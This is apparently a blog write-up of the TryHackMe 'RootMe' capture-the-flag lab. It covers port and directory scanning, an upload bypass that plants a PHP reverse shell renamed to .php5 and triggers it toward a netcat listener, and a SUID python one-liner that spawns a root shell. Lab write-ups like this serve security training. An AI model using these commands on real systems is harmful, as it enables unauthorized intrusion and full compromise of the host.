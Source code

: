 ```yaml
---
layout: post
title:  "TryHackMe.com: RootMe"
categories: write-up
author: tlabruyere
tags: [CTF, tryhackme]
---
```


# RootMe Machine

link: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

## Walk through

### Recon

The victim box will be referred to as 'rootme`

#### Nmap
Figure out what ports are available by scanning with `nmap`:

```bash
nmap -sC -sV -oN nmap/initial
```

Usage notes [here](_notes/nmap_recon.md)

The output revealed that `ssh` is available on port 22 and an apache server up on 80 extracted from the following:

```bash
$ cat nmap/initial 
# Nmap 7.60 scan initiated Tue Dec  1 08:01:43 2020 as: nmap -sC -sV -oN nmap/initial rootme
Nmap scan report for rootme
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec  1 08:02:16 2020 -- 1 IP address (1 host up) scanned in 32.94 seconds

```

#### GoBuster

Since apache is being hosted, we need to try to find potential endpoints available for attack. Using [GoBuster](https://github.com/OJ/gobuster)

```bash
$ ~/go/bin/gobuster dir -u rootme -w /usr/share/wordlists/directory-list-2.3-medium.txt 2>&1 |tee gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2020/12/19 11:13:23 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 302] [--> http://rootme/uploads/]
/css                  (Status: 301) [Size: 298] [--> http://rootme/css/]    
/js                   (Status: 301) [Size: 297] [--> http://rootme/js/]     
/panel                (Status: 301) [Size: 300] [--> http://rootme/panel/] 
```

The following is the `/panel` endpoint which allows uploading 

![RootMe-Panel](/assets/tryhackme_rootme/upload_panel.png)

This `/panel` could be used to upload our web shell to gain access to the system.

### Getting a Shell

After dynamically testing the `/panel` endpoint, the site works in two stages. First, you upload your file to `/panel`. If the upload is successful, it moves the file to the `/uploads` endpoint for viewing. If we are some how able to upload a reverse shell to the `/panel` endpoint, then we can execute it in the `/uploads` endpoint. 

To identify what kind of reverse shell that the system will take, we need to analyze the upload process using [burp suite](https://portswigger.net/burp). Here we would setup burp suite to intercept traffic as we execute the upload command on the page. Review headers may allow us to get an idea as to what the system is expecting. The following image is the headers presented during upload on `panel`.

![burpsuite-Panel](/assets/tryhackme_rootme/upload_with_testfile.png)

From this image we identify that php is probably running on the backend. This indicates that maybe a php reverse shell may get us access to the system.

Will use [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to gain access, but we need to rename the extension to php5. To use, update lhost and port to what you will use for your `nc` listener, and up load the file. 

Setup nc listener:

```bash
nc -lvp 1337
```

Hit the uploaded endpoint by 

```bash
curl http://rootme/uploads/php-reverse_shell.php5
```

The user flag is located at `/var/www/user.txt`. 

```bash
cat /var/www/user.txt
THM{XXXXXXXXXXXXXXX}
```


### Privilege Escalation

Identify what programs have suid set

```bash
$ find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

Referencing [GTFObins](https://gtfobins.github.io), we can escalate privileges by using python and running the following:

[python shell](https://gtfobins.github.io/gtfobins/python/#shell)
```bash
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
whoami
root
```

Root flag located in `/root/root.txt`

```bash
cat /root/root.txt
THM{XXXXXXXXXXXXXXXXXXXX}
```